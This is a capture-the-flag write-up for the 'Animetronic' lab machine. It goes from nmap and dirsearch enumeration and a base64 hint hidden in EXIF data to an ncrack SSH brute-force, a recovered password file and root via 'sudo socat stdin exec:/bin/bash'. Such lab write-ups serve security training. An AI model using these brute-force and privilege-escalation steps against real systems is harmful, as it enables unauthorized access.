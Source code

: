 ```yaml
---
title: Animetronic-Writeup
date: 2024-03-23
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
---
```

# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.1.76 08:00:27:06:e0:17 PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 

|   256 59:eb:51:67:e5:6a:9e:c1:4c:4e:c5:da:cd:ab:4c:eb (ECDSA)

|_  256 96:da:61:17:e2:23:ca:70:19:b5:3f:53:b5:5a:02:59 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Animetronic

|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:06:E0:17 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  
TRACEROUTE

HOP RTT      ADDRESS

1   17.72 ms animetronic (192.168.1.76)
```


# Url Enumeration

Use Dirsearch for directory discovery

```shell
dirsearch -u http://192.168.1.76 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
# result -> /staffpages/new_employees
```

(note that the default dictionary might not work)

## Exif 

As we access the directory, we can see nothing but a picture.

Download it and check the exif data of it:
```shell
root@kali ~/Downloads [1]# exiftool new_employees.jpeg
ExifTool Version Number         : 12.67
File Name                       : new_employees.jpeg
Directory                       : .
File Size                       : 160 kB
File Modification Date/Time     : 2024:03:22 12:54:39-04:00
File Access Date/Time           : 2024:03:22 12:55:22-04:00
File Inode Change Date/Time     : 2024:03:22 12:54:39-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : page for you michael : ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=
Image Width                     : 703
Image Height                    : 1136
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 703x1136
Megapixels                      : 0.799
```

 Decoding:

```bash
echo "ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=" | base64 -d
```

Result :

```shell
ɯǝssɐƃǝ‾ɟoɹ‾ɯıɔɥɐǝן # message_for_michael
```

Then we can do a smart assumption that this might be a directory.

By accessing it:

![](assets/img/animetronic/Note_img.png)

Then:

![](assets/img/animetronic/personal_info.png)


We can make another guess that this might be for ssh. Hence what we need to do now is to use cupp to create a dictionary, then we can consider using ncrack to get the ssh user and password.

ssh user & password:

```
ncrack -v -u michael -P michael.txt -T5 ssh://192.168.1.76 -f
```

Result:

```shell
192.168.1.76 22/tcp ssh: 'michael' 'leahcim1996'
```

## SSH

As we login into via ssh, we are able to see a file "Note.txt"

```shell
michael@animetronic:/home/henry$ cat Note.txt 
if you need my account to do anything on the server,
you will find my password in file named

aGVucnlwYXNzd29yZC50eHQK
```

By decoding it, it is "henrypassword.txt".

```shell
find / -name henrypassword.txt
```

Result:

```shell
/home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
```

Then we are able to get the password of user henry:

```shell
michael@animetronic:/home/henry$ cat /home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
IHateWilliam
```

Login into user henry:

```shell
henry@animetronic:~$ sudo -l
Matching Defaults entries for henry on animetronic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User henry may run the following commands on animetronic:
    (root) NOPASSWD: /usr/bin/socat
```

## Privilege Escalation

```shell
sudo socat stdin exec:/bin/bash
```


